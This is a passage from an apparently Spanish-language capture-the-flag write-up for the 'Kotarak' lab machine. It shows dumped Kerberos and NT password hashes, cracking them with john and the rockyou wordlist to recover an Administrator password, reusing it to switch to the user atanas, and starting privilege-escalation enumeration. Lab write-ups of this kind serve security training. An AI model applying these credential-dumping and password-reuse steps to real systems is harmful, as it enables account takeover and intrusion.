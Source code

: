 ```bash
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01                                                                                            
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772            
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180                                                                                               
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c                
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...  
```

Tenemos los hashes de varios usuarios, a nostros lo que nos interesan sería **Administrator** y **atanas**; por lo que vamos a crackearlos:

```bash
❯ catn hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
❯ john -w=/usr/share/wordlists/rockyou.txt --format=NT hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
f16tomcat!       (Administrator)
1g 0:00:00:00 DONE (2021-10-19 16:11) 1.408g/s 20202Kp/s 20202Kc/s 31772KC/s  _ 09..*7¡Vamos!
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

Ya tenemos la clave del usuario **Administrator**, podríamos probar migrar al usuario **atanas** con dicha contraseña:

```bash
tomcat@kotarak-dmz:/home$ su atanas
Password: 
atanas@kotarak-dmz:/home$ whoami
atanas
atanas@kotarak-dmz:/home$
```

Somo el usuario **atanas** y podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, asi que vamos a enumerar un poco el sistema:

```bash
atanas@kotarak-dmz:~$ id
uid=1000(atanas) gid=1000(atanas) groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)
atanas@kotarak-dmz:~$ sudo -l
sudo: unable to resolve host kotarak-dmz: Connection refused
[sudo] password for atanas: 
Sorry, user atanas may not run sudo on kotarak-dmz.
atanas@kotarak-dmz:~$
```
